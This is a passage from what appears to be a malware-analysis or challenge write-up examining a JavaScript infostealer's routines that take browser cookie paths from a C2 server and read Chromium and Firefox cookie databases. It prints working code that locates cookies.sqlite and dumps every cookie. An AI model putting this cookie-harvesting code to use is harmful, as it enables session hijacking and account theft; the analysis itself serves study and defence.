                 })
            });
    

#### Browser Cookies

`getBrowserCookies` gets a list of paths from the C2 and loops over them. If
“firefox” is in the path, it calls `getFirefoxCookies(path)`, and otherwise
`browserCookies(path)`.

In `browserCookies`, it looks for a `Cookies` file and opens it as a SQLite
DB:

    
    
                    const database = new Database(join(path, 'Network', 'Cookies'));
                    if(!database) return;
    
                    database.each('SELECT * from cookies', async function (err, row) { 
    

There’s a lot of code to decrypt these cookies, and they are returned.

`getFirefoxCookies` uses the `where /r . cookies.sqlite` command to find the
file (Task 12):

    
    
    async function getFirefoxCookies(path) {
        const cookies = [];
        if(existsSync(path)) {
            try {
                const cookiesFile = execSync('where /r . cookies.sqlite', { cwd: path })?.toString();
    
                if(!cookiesFile) return;
                if(!existsSync(join(cookiesFile?.trim()))) return;
                const result = await new Promise((res, rej) => {
                    const database = new Database(cookiesFile?.trim())
                    if(!database) return;
        
                    database.each('SELECT * FROM moz_cookies', async function(err, row) {
                        if(!row?.value) return;
                        if(cookies?.find((c) => c?.browser === 'Firefox')) {
                            cookies?.find((c) => c?.browser === 'Firefox')?.list?.push(`${row?.host}\t${row?.expiry === 0 ? 'FALSE' : 'TRUE'}\t${row?.path}\t${row?.host?.startsWith('.') ? 'FALSE' : 'TRUE'}\t${row?.expiry}\t${row?.name}\t${row?.value}`);
                        } else {
                            cookies?.push({ browser: 'Firefox', list: [`${row?.host}\t${row?.expiry === 0 ? 'FALSE' : 'TRUE'}\t${row?.path}\t${row?.host?.startsWith('.') ? 'FALSE' : 'TRUE'}\t${row?.expiry}\t${row?.name}\t${row?.value}`]});
                        };
                    }, function () {
                        res(cookies);
                        database?.close();
                    });
                });
    
                return result;
            } catch(e) {
                console.log(e)
            };
        };
    };
    